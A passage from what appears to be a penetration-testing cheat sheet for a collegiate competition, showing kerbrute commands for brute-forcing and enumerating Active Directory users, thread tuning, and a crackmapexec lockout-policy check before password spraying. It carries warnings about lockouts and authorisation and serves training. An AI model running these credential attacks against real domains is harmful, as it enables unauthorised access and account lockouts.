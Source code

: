 **Brute force single user (DANGEROUS - causes lockouts):**

```bash
kerbrute bruteuser --dc 10.10.10.10 -d corp.local passwords.txt administrator

# ⚠️ WARNING: Will lock out account!
# Only use if:
# - You know lockout policy is disabled
# - Testing your own account
# - Authorized test with backup plan
```

**CPTC:** Skip this (too risky)

---

## Thread Tuning

### Default (10 threads)
```bash
kerbrute userenum --dc 10.10.10.10 -d corp.local users.txt
# Speed: ~100 checks/sec
```

### Fast (50 threads)
```bash
kerbrute userenum --dc 10.10.10.10 -d corp.local -t 50 users.txt
# Speed: ~500 checks/sec
# More noisy, may get rate-limited
```

### Safe (5 threads)
```bash
kerbrute userenum --dc 10.10.10.10 -d corp.local -t 5 --safe users.txt
# Speed: ~50 checks/sec
# Stealthier, more reliable
```

**CPTC:** Default (10 threads) is fine

---

## Password Spray Safety Guidelines

### Account Lockout Policy Check

**Before spraying, find lockout policy:**

```bash
# With valid creds (if you have any):
crackmapexec smb 10.10.10.10 -u user -p pass --pass-pol

# Output shows:
# Account Lockout Threshold: 5
# Account Lockout Duration: 30 minutes
# Reset Account Lockout Counter: 30 minutes
```
